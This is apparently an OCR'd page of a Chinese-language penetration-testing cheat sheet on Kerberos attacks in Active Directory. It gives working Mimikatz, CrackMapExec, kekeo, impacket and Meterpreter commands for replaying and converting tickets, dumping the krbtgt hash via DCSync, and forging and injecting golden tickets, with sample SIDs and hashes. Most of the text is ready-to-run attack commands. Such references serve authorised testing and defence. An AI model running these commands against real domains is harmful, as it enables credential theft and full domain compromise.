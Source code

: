### 重放Kerberos票证

* Mimikatz: `mimikatz.exe "kerberos::ptc C:\temp\TGT_Administrator@lab.local.ccache"`
* CrackMapExec: `KRB5CCNAME=/tmp/administrator.ccache crackmapexec smb 10.10.10 -u user --use-kcache`

### 转换Kerberos票证

在Kerberos认证协议中，ccache和kirbi是两种用于存储Kerberos票证的Kerberos凭证缓存类型。

* 凭据缓存，或称为`"ccache"`，是在认证过程中获得的Kerberos票证的临时存储区域。ccache包含用户的认证凭据，并用于访问网络资源，而无需为每个请求重新输入用户的凭据。

* 微软Windows系统使用的Kerberos集成Windows认证（KIWA）协议也使用了称为`"kirbi"`缓存的凭据缓存。kirbi缓存与标准Kerberos实现中使用的ccache类似，但在其结构和管理的某些方面有所不同。

虽然这两种缓存都服务于存储Kerberos票证以便有效访问网络资源的基本目的，但它们在格式和结构上有所不同。您可以使用以下工具轻松转换它们：

* kekeo: `misc::convert ccache ticket.kirbi`
* impacket: `impacket-ticketConverter SRV01.kirbi SRV01.ccache`

### 传递票证金票

伪造TGT需要：

* `krbtgt`的NT哈希
* 由于最近的`CVE-2021-42287`缓解措施，我们不能使用不存在的账户名

> 伪造金票的方式与银票非常相似。主要区别在于，在这种情况下，不需要向ticketer.py指定服务SPN，必须使用krbtgt的NT哈希。

#### 使用Mimikatz

```powershell
# 获取信息 - Mimikatz
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt

# 伪造金票 - Mimikatz
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

#### 使用Meterpreter 

```powershell
# 获取信息 - Meterpreter(kiwi)
dcsync_ntlm krbtgt
dcsync krbtgt

# 伪造金票 - Meterpreter
load kiwi
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
golden_ticket_create -d pentestlab.local -u pentestlabuser -s S-1-5-21-3737340914-2019594255-2413685307 -k d125e4f69c851529045ec95ca80fa37e -t /root/Downloads/pentestlabuser.tck
kerberos_ticket_purge
kerberos_ticket_use /root/Downloads/pentestlabuser.tck
kerberos_ticket_list
```
